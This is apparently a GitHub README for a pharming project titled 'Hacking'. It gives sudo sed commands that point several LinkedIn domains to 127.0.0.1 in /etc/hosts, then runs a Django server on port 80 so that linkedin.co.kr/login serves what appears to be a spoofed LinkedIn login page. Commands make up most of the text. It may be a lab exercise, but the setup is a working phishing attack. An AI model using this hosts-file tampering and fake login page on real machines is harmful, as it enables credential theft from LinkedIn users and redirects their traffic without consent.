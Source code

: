 # Hacking
## Requirement
1. django 설치
2. python 설치

## DNS Fishing Code
```
sudo sed -i '1i127.0.0.1 linkedin.co.kr' /etc/hosts
sudo sed -i '1i127.0.0.1 linkedin.com' /etc/hosts
sudo sed -i '1i127.0.0.1 www.linkedin.com' /etc/hosts
sudo sed -i '1i127.0.0.1 www.linkedin.co.kr' /etc/hosts
sudo sed -i '1i127.0.0.1 kr.linkedin.co.kr' /etc/hosts
```

## Pharming WebSite Execution
```
cd ${Clone Path}
python manage.py runserver 127.0.0.1:80
```

## Modifiy host file
Refer to ./shellcode/README file


## Access Link
linkedin.co.kr/login

